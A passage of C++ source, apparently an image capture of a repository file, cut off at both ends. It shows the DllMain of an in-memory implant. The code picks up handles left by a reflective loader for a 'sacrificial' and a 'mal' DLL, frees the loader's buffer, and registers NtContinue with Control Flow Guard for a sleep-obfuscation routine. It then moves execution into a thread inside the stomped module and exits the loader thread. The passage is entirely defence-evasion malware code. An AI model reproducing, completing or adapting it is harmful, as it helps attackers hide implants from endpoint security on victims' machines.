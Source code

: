```cpp
        }

    } while (TRUE);

}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
       
        PBYTE oldMemory = NULL;
        
        //even if unampped it's in the PEB
        PBYTE myBase = (PBYTE)GetModuleHandleA("SRH.dll");

        //get handle to NTDLL
        HMODULE hNtdll = GetModuleHandleA("ntdll.dll");

        //retrieve the information left from the reflective loader
        //retrieve handle of sac dll
        PHANDLE pointerToHandle = (PHANDLE)myBase;
        HANDLE sacDllHandle = *pointerToHandle;
        
        //retrieve handle of mal dll
        pointerToHandle++;//+8 bytes
        HANDLE malDllHandle = *pointerToHandle;
        
        //retrieve size of dll in memory
        pointerToHandle++;//+8 bytes
        PSIZE_T pointerToSize = (PSIZE_T)pointerToHandle;
        SIZE_T viewSize = *pointerToSize;
        
        //retrieve the first buffer address
        pointerToHandle++;//+8 bytes
        oldMemory = (PBYTE) *pointerToHandle;

        //remove the very first buffer allocated for the reflective DLL
        if (VirtualFree(oldMemory, 0, MEM_RELEASE) == 0) {    
            //error releasing old buffer
            return FALSE;
        }
        //adding NtContinue to valid target as the new SleapingAPC implementation
        CfgAddressAdd(GetCurrentProcess(),hNtdll, GetProcAddress(hNtdll, "NtContinue"));

        PCORE_ARGUMENTS CoreArguments = (PCORE_ARGUMENTS)VirtualAlloc(NULL, sizeof(CORE_ARGUMENTS), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        CoreArguments->myBase = myBase;
        CoreArguments->sacDLLHandle = sacDllHandle;
        CoreArguments->malDLLHandle = malDllHandle;
        CoreArguments->viewSize = viewSize;
        //creating a new thread in the address space of SRH.dll 
        HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)CoreFunction, CoreArguments, 0, NULL);

        if (hThread != NULL) {
            //killing the thread coming from the Reflective Loader
            ExitThread(0);
```